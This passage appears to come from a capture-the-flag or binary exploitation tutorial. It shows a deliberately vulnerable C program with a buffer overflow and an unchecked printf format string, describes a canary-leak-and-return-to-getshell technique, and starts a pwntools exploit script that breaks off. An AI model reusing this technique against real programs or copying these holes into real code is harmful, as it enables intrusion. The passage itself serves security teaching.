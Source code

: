 ```C

    setbuf(stdout, NULL);

    setbuf(stderr, NULL);

}

void vuln() {

    char buf[100];

    for(int i=0;i<2;i++){

        read(0, buf, 0x200);

        printf(buf);

    }

}

int main(void) {

    init();

    puts("Hello Hacker!");

vuln ();
    return 0;

}

```



Compile to 32bit program, open NX, ASLR, Canary protection


First print out the 4-digit Canary by overwriting the last `\x00` byte of Canary
After that, calculate the offset, fill Canary into the corresponding overflow position, and implement Ret into the getshell function.


```python

#!/usr/bin/env python



from pwn import *



context.binary = 'ex2'

#context.log_level = 'debug'

io = process (&#39;./ ex2&#39;)


get_shell = ELF("./ex2").sym["getshell"]



io.recvuntil (&quot;Hello Hacker!
```